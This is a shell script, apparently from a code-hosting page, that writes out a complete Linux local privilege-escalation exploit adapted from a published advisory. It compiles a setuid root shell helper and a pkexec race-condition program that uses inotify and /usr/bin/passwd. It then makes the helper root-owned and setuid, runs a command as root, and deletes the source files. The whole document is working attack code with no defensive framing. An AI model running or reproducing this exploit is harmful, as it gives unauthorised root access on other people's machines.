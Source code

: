 run.sh
------

    # modified from http://downloads.securityfocus.com/vulnerabilities/exploits/47496.sh
    # for rdot.org
    cat > suid.c << _EOF
    #include <stdio.h>
    #include <stdlib.h>
    main(int argc, char *argv[])
    {
    if(argc == 2) {
    setgid(0); setuid(0);
    system(argv[1]); }
    return 0;
    }
    _EOF
    cat > makesuid.c << _EOF
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/types.h>
    #include <sys/inotify.h>
    int main(int argc, char **argv)
    {
       if (fork() != 0)
        {
            int fd;
            char pid_path[15];
            sprintf(pid_path, "/proc/%i", getpid());
            close(0); close(1); close(2);
            fd = inotify_init();
            inotify_add_watch(fd, pid_path, IN_ACCESS);
            read(fd, NULL, 0);
            execl("/usr/bin/passwd", "/usr/bin/passwd", NULL);
        }
        else
        {
                execl("/usr/bin/pkexec", "pkexec", argv[1],argv[2],argv[3], NULL);
        }

        return 0;
    }

    _EOF
    gcc -o suid suid.c
    gcc -o makesuid makesuid.c
    ./makesuid chown root:root $PWD/suid
    ./makesuid chmod u+s $PWD/suid
    echo "your suid is on ./suid make sure u move this !!!"
    rm suid.c makesuid.c makesuid
    $PWD/suid -c /usr/bin/id